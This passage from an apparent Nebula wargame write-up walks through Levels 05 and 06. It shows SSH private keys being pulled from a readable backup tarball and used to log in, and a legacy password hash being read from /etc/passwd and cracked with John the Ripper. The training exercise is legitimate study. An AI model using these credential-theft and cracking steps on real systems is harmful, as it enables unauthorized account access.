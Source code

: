That *backup* directory looks like our target

{{< highlight console >}}
level05@nebula:/home/flag05$ cd .backup/
level05@nebula:/home/flag05/.backup$ ls -la
total 2
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
-rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz
level05@nebula:/home/flag05/.backup$ tar xvzf backup-19072011.tgz -C /tmp
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
{{< / highlight >}}

Right so let's use these keys to login as *flag05*. 

{{< highlight console >}}
level05@nebula:/home/flag05/.backup$ ssh -i /tmp/.ssh/id_rsa flag05@localhost

flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
{{< / highlight >}}

## Level 06 ##

> The flag06 account credentials came from a legacy unix system. 

To cut a long story short, the way the password is stored for this user is not the same as for the other users. In older *nix systems the password was stored inside the `/etc/passwd` file. So let's take a look:

{{< highlight console >}}
level06@nebula:/home/flag06$ cat /etc/passwd | grep flag06
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
{{< / highlight >}}

Yep, there's the encrypted password. Grab that line and run it through John The Ripper

{{< highlight console >}}
root@kali:~# echo flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh > nebula.txt
root@kali:~# john nebula.txt  -show
flag06:hello:993:993::/home/flag06:/bin/sh

1 password hash cracked, 0 left
{{< / highlight >}}

That's that, now back on the nebula box

{{< highlight console >}}
level06@nebula:/home/flag06$ ssh flag06@localhost

flag06@localhost's password: hello

getflag06@nebula:~$ getflag
You have successfully executed getflag on a target account
{{< / highlight >}}
